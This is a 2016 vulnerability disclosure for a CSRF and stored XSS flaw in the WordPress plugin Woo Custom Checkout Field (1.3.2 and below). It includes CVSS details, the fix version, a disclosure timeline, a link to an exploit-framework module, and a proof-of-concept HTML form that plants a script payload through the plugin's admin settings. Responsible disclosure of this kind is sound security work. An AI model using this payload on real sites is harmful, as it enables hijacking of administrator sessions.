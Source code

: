 ```yaml
---
layout: single
title: Woo Custom Checkout Field <= 1.3.2 CSRF + Stored XSS Disclosure
date: 2016-07-25
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - woo custom checkout field
  - stored xss
  - csrf
excerpt: Due to a lack of CSRF mitigation and entity encoding in the `ccf_insert` function found on line 118 of `include/ccf.php` and in the output generated by `template/datagrid.php`, it is possible to store and execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/woo-custom-checkout-field/](https://wordpress.org/plugins/woo-custom-checkout-field/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the `ccf_insert` function found on line 118 of `include/ccf.php` and in the output generated by `template/datagrid.php`, it is possible to store and execute scripts in the context of an admin user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
1.3.2 and below

## Solution
Upgrade to version 1.3.5

## Proof of Concept
```xml
<form method="post" action="http://[target]/wp-admin/admin.php?page=ccf_settings_menu">
    <input type="text" name="txt_field_name" value="field_name">
    <input type="text" name="txt_field_class" value="&lt;script&gt;alert(document.cookie);&lt;/script&gt;">
    <input type="text" name="txt_field_placeholder" value="placeholder">
    <input type="text" name="txt_field_type" value="text">
    <input type="text" name="txt_field_options" value="">
    <input type="submit" name="add_field" value="Submit">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/stored/woo\_custom\_checkout\_field\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/modules/exploit/xss/stored/woo_custom_checkout_field_xss_shell_upload.rb)

## WPVDB-ID
8567

## Disclosure Timeline
* **2016-07-23**: Identified vulnerability, contacted vendor with POC and advice on how to resolve the issue.
* **2016-07-25**: No response from vendor, contacting WordPress to report issue.
* **2016-07-26**: Public disclosure
* **2016-07-26**: Plugin removed by WordPress pending a fix from the vendor
* **2016-07-29**: Vendor released an update which fixes the issue
